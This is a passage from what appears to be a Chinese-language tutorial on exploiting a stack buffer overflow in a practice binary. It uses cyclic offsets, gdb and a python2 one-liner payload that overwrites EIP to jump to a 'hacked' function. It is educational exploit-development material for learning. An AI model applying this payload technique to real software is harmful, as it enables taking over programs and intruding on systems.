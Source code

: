 复制输出的字符，然后运行程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/060ab86adce7452eae89b31fee7f38fb.png)


可以看到，程序已经报错了，而且里面原本的参数全被我们输入的值给覆盖了，这里需要注意的是ret指令，ret是子程序的返回指令，原本他要返回main函数，结果被我们覆盖了，返回到了其他不存在的地址，于是程序就报错了

EIP这个寄存器，他是程序的指针，指针就是寻找地址的，指到什么地址，就会运行该地址的参数，控制了这个指针，就能控制整个程序的运行

可以看到，eip寄存器里的值是haaa的十六进制，我们查一下haaa在刚刚生成的字符的第几个
```
cyclic -l haaa
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b37033ae9c814d9daf2d40d2beebc875.png)
说明我们要覆盖eip原本的返回地址并控制，就需要28个字符+想让程序跳转执行的地址

然后我们再次查看程序调用的函数地址
```
info functions
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d2a968d903f54092a5749f1766270000.png)

hacked的函数地址是0x08049182，我们可以写一个小脚本来让程序跳转到这个地址

在x86架构里，读取地址是由低到高的，十六进制0x08049182就要从最后一个开始写，然后将输出的值存放到一个文件里


```
python2 -c "print 'A'*28+'\x82\x91\x04\x08'+'AAAA'+'BBBB'+'CCCC'+'DDDD'" > exp
```

回到gdb，在regustr_name函数最后的ret返回指令处下一个断点
```
b *0x0804922a
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/dc22471a6e874ecaa38fb6d56553ac6e.png)

这样可以让我们更方便的调试程序，然后运行程序，导入这个文件里的值

```
run < exp
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/0990745e0ef74cf39cf3e7682a8763f5.png)

可以看到，我们成功覆盖了原本的返回地址

按n进入下一步，一直到对比的地方

![](https://img-blog.csdnimg.cn/26756b963a4c48a3b6ad5ad37f321ee8.png)

我们查看一下这个寄存器里的值



![在这里插入图片描述](https://img-blog.csdnimg.cn/f1c41063e14240e7a9207141dfd7feee.png)

